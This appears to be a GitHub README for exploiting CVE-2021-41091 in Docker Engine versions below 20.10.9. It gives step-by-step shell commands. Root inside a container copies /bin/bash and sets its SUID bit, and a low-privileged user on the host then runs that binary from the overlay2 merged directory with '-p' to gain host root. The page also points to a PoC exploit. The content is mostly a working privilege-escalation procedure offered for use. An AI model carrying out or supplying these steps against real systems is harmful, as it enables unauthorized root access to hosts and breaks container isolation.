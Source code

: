 # Moby Docker Engine CVE-2021-41091

## Repo: https://github.com/UncleJ4ck/CVE-2021-41091

## Requirements: 

### 1) Root Access in the container

### 2) Docker is version below < 20.10.9

## Steps:

#### 1) Confirm if the docker version is vulnerable

    Host shell: docker --version 

#### 2) Display the mounts connected to the system, inclusing those used by Docker containers

    Host shell: findmnt 

#### 3) Also verify within the container

    Containerised root shell: mount

#### 4) Check if we have access to the container as the low privileged user from the host OS
   
    Host shell: cd /var/lib/docker/overlay2/cewdfbnkwejfwe98f67w8e/merged && ls -la 

#### 5) Abuse root privileges within the container to give SUID bit to bash binary

    Containerised root shell: cp /bin/bash /

    Containerised root shell: chmod u+s /bash 

#### 6) Gain root on the host OS

    Host shell: /var/lib/docker/overlay2/cewdfbnkwejfwe98f67w8e/merged/bash -p 

## TIP: You can use the PoC exploit for further ease of use.
